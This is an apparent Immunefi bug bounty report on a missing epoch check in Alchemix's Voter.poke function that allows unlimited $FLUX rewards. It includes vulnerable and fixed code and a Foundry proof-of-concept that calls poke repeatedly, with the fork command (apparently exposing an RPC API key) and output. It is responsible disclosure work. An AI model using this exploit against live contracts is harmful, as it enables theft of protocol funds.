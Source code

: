 
# `Voter.poke` does not check `lastVoted` resulting in infinite replication of $FLUX

Submitted on May 14th 2024 at 19:38:20 UTC by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31196

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro

In AlchemixDAO, each $veToken can vote once per epoch, and users can receive $FLUX as a reward after voting. However, the `Voter.poke` interface allows users to easily repeat previous votes without check whether the $veToken has already voted in the current epoch. As a result, users can call the poke interface infinitely to receive $FLUX repeatedly.

## Vulnerability Details

Please see the following code. The `Voter.vote` interface uses the `onlyNewEpoch` modifier to check whether $veToken has voted in the current epoch.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L228-L233
    function vote(
        uint256 _tokenId,
        address[] calldata _poolVote,
        uint256[] calldata _weights,
        uint256 _boost
    ) external onlyNewEpoch(_tokenId) {
```

However, the `Voter.poke` interface, which also has the voting function, does not check `lastVoted`, causing users to call the interface repeatedly.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195-L212
    function poke(uint256 _tokenId) public {
        // Previous boost will be taken into account with weights being pulled from the votes mapping
        uint256 _boost = 0;

        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        address[] memory _poolVote = poolVote[_tokenId];
        uint256 _poolCnt = _poolVote.length;
        uint256[] memory _weights = new uint256[](_poolCnt);

        for (uint256 i = 0; i < _poolCnt; i++) {
            _weights[i] = votes[_tokenId][_poolVote[i]];
        }

        _vote(_tokenId, _poolVote, _weights, _boost);
    }
```

**Suggested fix**

Check the `lastVoted` of the token.

```diff
-   function poke(uint256 _tokenId) public {
+   function poke(uint256 _tokenId) public onlyNewEpoch(_tokenId) {
        // Previous boost will be taken into account with weights being pulled from the votes mapping
        uint256 _boost = 0;

        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        address[] memory _poolVote = poolVote[_tokenId];
        uint256 _poolCnt = _poolVote.length;
        uint256[] memory _weights = new uint256[](_poolCnt);

        for (uint256 i = 0; i < _poolCnt; i++) {
            _weights[i] = votes[_tokenId][_poolVote[i]];
        }

        _vote(_tokenId, _poolVote, _weights, _boost);
    }
```

## Impact Details

Users can infinitely copy $FLUX causing Alchemix token economics to collapse.

## References

None


## Proof of Concept

The PoC patch

```solidity
diff --git a/src/test/Voting.t.sol b/src/test/Voting.t.sol
index 3f1cc5a..c71a697 100644
--- a/src/test/Voting.t.sol
+++ b/src/test/Voting.t.sol
@@ -1562,4 +1562,28 @@ contract VotingTest is BaseTest {
         hevm.expectRevert(abi.encodePacked("invalid pools"));
         voter.vote(tokenId, pools2, weights3, 0);
     }
+
+    function testYttriumzzPocTemp() public {
+        hevm.startPrank(admin);
+
+        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
+
+        console.log(">>>>> before steal");
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        console.log(">>>>> steal 100 times");
+        for (uint256 i = 0; i < 100; i++) { voter.poke(tokenId); }
+        flux.claimFlux(tokenId, flux.getUnclaimedFlux(tokenId));
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        console.log(">>>>> steal 100 times");
+        for (uint256 i = 0; i < 100; i++) { voter.poke(tokenId); }
+        flux.claimFlux(tokenId, flux.getUnclaimedFlux(tokenId));
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        hevm.stopPrank();
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/Voting.t.sol:VotingTest
[PASS] testYttriumzzPocTemp() (gas: 4897718)
Logs:
  >>>>> before steal
  >> flux.balanceOf(admin): 0
  
  >>>>> steal 100 times
  >> flux.balanceOf(admin): 99725916412156217700
  
  >>>>> steal 100 times
  >> flux.balanceOf(admin): 199451832824312435400
  

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 61.62ms (46.36ms CPU time)

Ran 1 test suite in 1.68s (61.62ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

